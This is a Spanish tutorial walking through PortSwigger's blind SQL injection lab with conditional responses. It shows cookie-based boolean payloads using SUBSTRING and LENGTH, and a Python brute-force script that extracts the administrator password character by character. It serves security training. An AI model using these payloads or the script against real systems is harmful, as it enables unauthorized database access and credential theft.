










---

# Guía práctica: SQLi Blind — respuestas condicionales

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses):

`https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio la entrada vulnerable es la cookie `TrackingId`. Para confirmarlo interceptamos peticiones con Burp Suite y observamos el valor de la cookie en la cabecera `Cookie`. También se puede ver con DevTools (`Ctrl+Shift+I`).

**Paso práctico (comprobación rápida):**

1. Intercepta una petición con Burp (o abre DevTools).
    
2. Localiza la cabecera `Cookie: TrackingId=...`.
    
3. Modifica temporalmente el valor añadiendo una comilla simple (`'`) al final:  
    `TrackingId=G1KUuxbiLkvBBAT5'`
    
4. Reenvía la petición y compara la respuesta con la original. En este laboratorio al añadir `'` se observa un cambio sutil en el contenido (por ejemplo, desaparece el texto `Welcome back!`), lo que indica que la entrada está afectando a la consulta SQL y que existe un comportamiento condicional en la aplicación.
    

> Nota: la ausencia de un error explícito no descarta SQLi. En _blind SQLi_ la aplicación no devuelve un mensaje de error claro; en su lugar, devuelve respuestas distintas (o con tiempos distintos) según el resultado de una condición SQL.

**Evidencia visual:**





Fíjese que al introducir  `'` en el campo vulnerable obtenemos el error (vemos que desaparece el mensaje de `Welcome back!`)



Con lo que nos tenemos que quedar es que cuando la query es correcta vemos el `Welcome back!`, es decir, vemos la parte de `Conditional response` y cuando la query es errónea no vemos el `Welcome back!`. La parte de `Blind` (a ciegas) es porque la página no va a mostrar ningún tipo de dato en su respuesta, es decir, ahora introduciremos una query así  `' UNION SELECT 'test'-- -`  o también `' UNION SELECT NULL-- -`. En ambas veremos `Welcome back!` ya que la query es correcta, es decir, sí que hay una columna (lo comprobamos con `' ORDER BY 1-- -`), pero no vemos `test` ni obviamente `NULL` en la página. Esto es porque la SQLi es a ciegas, es decir, realmente tenemos una vía potencial de extraer datos de las columnas y tablas, pero para ello vamos a tener que ir jugando con diferentes querys para poder ir construyendo carácter a carácter cada dato de la base de datos. Esto lo podemos hacer confirmando manualmente valores como la longitud de la tabla X, por qué letra empieza, etc. Pero también podemos automatizar con scripts el proceso entero o parte de él.




Confirmamos también que la query `' UNION SELECT schema_name FROM information_schema.schemata-- -` es una consulta válida. Pero como decíamos no vemos reflejada en la respuesta las bases de datos almacenadas. Para ello tendremos que usar querys que permitan extraer información por cada carácter válido.



Sabemos que en este laboratorio la tabla relevante es `users(username, password)` y nuestro objetivo es **recuperar la contraseña del usuario `administrator`**. Para ello vamos a usar comprobaciones booleanas simples que nos permitan inferir, carácter a carácter, el valor del campo `password`.

Antes de extraer datos, comprobamos que la aplicación responde de forma distinta según una condición booleana:

```sql
' AND 'a' = 'a'

' AND (SELECT 'a') = 'a'
```

Ambas expresiones evaluarán a TRUE. Si inyectamos cualquiera de ellas en el punto vulnerable y la respuesta del servidor mantiene el comportamiento “normal” (por ejemplo sigue mostrando un texto como Welcome back!), tenemos una señal fiable de que podemos utilizar **condiciones booleanas** para distinguir TRUE/FALSE.







**Comprobación aplicada a la columna password**:

A partir de aquí planteamos una condición que compare la primera letra de la contraseña del usuario administrator con un carácter candidato. Si la comparación es verdadera la aplicación responderá como en el caso “normal”; si es falsa veremos un cambio observable.

Payload boolean-based (MySQL — primer carácter del password)

```sql
' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator' LIMIT 1) = 'a'-- -
```

Explicación: 

- SUBSTRING(password, 1, 1) obtiene el primer carácter del campo password.

- La subconsulta SELECT ... FROM users WHERE username = 'administrator' LIMIT 1 devuelve ese carácter para el usuario administrator.

- Comparamos el resultado con 'a'. Si la condición es TRUE la respuesta del servidor permanecerá igual; si es FALSE la respuesta cambiará (por ejemplo desaparecerá o cambiará un texto).

- Repetimos la prueba con otros caracteres ('b', 'c', '0', etc.) hasta identificar el carácter correcto.

- Para extraer la segunda letra usaríamos SUBSTRING(password, 2, 1), y así sucesivamente.


---

## Explotación

Como el campo que nos interesa obtener es el de contraseña, podemos aplicar este mismo principio para saber por que carácter empieza la contraseña del usuario administrator. Simplemente usamos la query de antes pero iterando por el campo `password,1,1`  

```sql
' and (select substring(password,1,1) from users where username='administrator') = '0'-- -
```



Como tenemos una vía de extraer para cada carácter la contraseña, también tenemos una vía potencial de saber la longitud exacta de la contraseña. Usando el mismo principio y jugando con el parámetro `length(<valor>)`:

```sql
' and (select substring(username,1,1) from users where username='administrator' and length(password)=20) = 'a'-- -
```

Con esta query obtenemos una respuesta booleana de valor True al igualar la longitud del valor `password` del usuario llamado `administrator` ubicado en la tabla `users` de la base de datos en uso. La longitud resulta ser `20`. Con toda esta información podemos crear un script en python.




---

## Script

```python
#!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits


p1 = log.progress("SQLi")


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"NPOvQ2mmdkPKkeJz' and (select substring(password,{position},1) from users where username='administrator') = '{character}'-- -",
                'session': "ZviMqR53YnFwdgn0XCuNVlgwfHtkl7jK"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ab900f804677dc9815b93e50088000e.web-security-academy.net/", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

Resultado:

```bash
[↑] Password: 612dsg72tl8gmicflnku
```

[^1]: 
